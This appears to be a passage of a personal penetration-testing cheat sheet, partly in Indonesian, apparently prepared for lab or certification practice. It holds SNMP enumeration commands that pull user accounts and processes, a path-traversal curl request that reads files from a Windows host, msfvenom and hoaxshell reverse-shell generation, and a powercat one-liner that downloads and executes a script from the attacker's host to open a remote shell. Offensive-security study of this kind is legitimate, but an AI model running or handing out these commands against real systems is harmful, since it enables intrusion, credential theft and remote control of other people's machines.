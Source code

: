 ```cmd (look hacktrickz or oscp module)
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.4.1.77.1.2.25

https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp [IMPORTANT TRY TO USE EXTENDED ATTRIBUTES, BISA DPT CREDS]
sudo apt-get install snmp-mibs-downloader
sudo download-mibs

# Finally comment the line saying "mibs :" in /etc/snmp/snmp.conf
sudo subl /etc/snmp/snmp.conf

snmpwalk -v1 -c public 192.168.182.156 NET-SNMP-EXTEND-MIB::nsExtendOutputFull

Community String
public
private
manager

Versions
-v1
-v2
-v3

MIB Process Tree
1.3.6.1.2.1.25.1.6.0 	System Processes
1.3.6.1.2.1.25.4.2.1.2 	Running Programs
1.3.6.1.2.1.25.4.2.1.4 	Processes Path
1.3.6.1.2.1.25.2.3.1.4 	Storage Units
1.3.6.1.2.1.25.6.3.1.2	Software Name
1.3.6.1.4.1.77.1.2.25 	User Accounts
1.3.6.1.2.1.6.13.1.3 	TCP Local Ports
```
22. Windows LFI (Path traversal)
```cmd (tetep ../)
curl --path-as-is "http://192.168.209.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt"
```
23. JANGAN LUPA COBA RFI, (LOAD PAYLOAD DARI WEB SERVER KITA)

24. Auto Generate + Setup Listener for POWERSHELL REVERSE SHELL
```bash
python hoaxshell.py -s <listen_ip> -p 5555
```
```bash
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=192.168.45.168 LPORT=443 --format psh --smallest | msfvenom -a x64 --platform Windows -e powershell/base64 NOEXIT
```
25. ALTERNATIVE NETCAT, `powercat.ps1` (netcat buat powershell)
```cmd
iex (New-Object Net.WebClient).DownloadString('http://192.168.45.168:8000/powercat.ps1');powercat -c <kali_ip> -p <listener_port> -e <powershell or cmd>

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.168:8000/powercat.ps1');powercat -c 192.168.45.168 -p 1234 -e powershell

or manual

. .\powercat.ps1
powercat -c <kali_ip> -p <listener_port> -e <powershell>
```

